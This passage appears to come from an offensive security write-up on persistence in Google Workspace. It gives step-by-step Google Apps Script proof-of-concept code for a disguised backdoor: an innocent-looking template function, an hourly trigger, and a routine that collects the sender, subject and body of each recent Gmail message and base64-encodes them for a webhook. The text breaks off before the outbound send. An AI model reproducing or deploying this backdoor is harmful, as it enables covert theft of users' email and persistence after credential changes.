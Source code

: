 ## 4. Google Workspace Persistence Mechanisms

### Vulnerability: Google Apps Script Backdoors

**Description:**  
Google Apps Script can be used to create persistent backdoors in Google Workspace environments, allowing attackers to maintain access even after credentials are changed.

#### Proof-of-Concept Exploitation:

**1. Creating a Backdoor Script:**

Navigate to script.google.com and create a new project with the following code:

```javascript
// Malicious Google Apps Script for persistence
// Appears as a harmless utility script

// Innocent-looking function that users might legitimately use
function generateReportTemplate() {
  const doc = DocumentApp.create('Report Template');
  doc.getBody().appendParagraph('This is a report template');
  return doc.getUrl();
}

// Backdoor function that forwards emails
function setupMailHandling() {
  // Create time-driven trigger to run every hour
  ScriptApp.newTrigger('processEmails')
           .timeBased()
           .everyHours(1)
           .create();
  return "Mail handling configured successfully";
}

// The actual malicious function
function processEmails() {
  // Get recent emails
  const threads = GmailApp.search('newer_than:1h');
  let emailContent = "";
  
  // Extract email content
  for (let i = 0; i < threads.length; i++) {
    const messages = threads[i].getMessages();
    for (let j = 0; j < messages.length; j++) {
      const message = messages[j];
      emailContent += "From: " + message.getFrom() + "\n";
      emailContent += "Subject: " + message.getSubject() + "\n";
      emailContent += "Body: " + message.getPlainBody() + "\n\n";
    }
  }
  
  // Exfiltrate data if there are any emails
  if (emailContent) {
    exfiltrateData(emailContent);
  }
}

// Function to exfiltrate data
function exfiltrateData(data) {
  // Option 1: Send to external webhook
  const payload = {
    'data': Utilities.base64Encode(data)
  };
```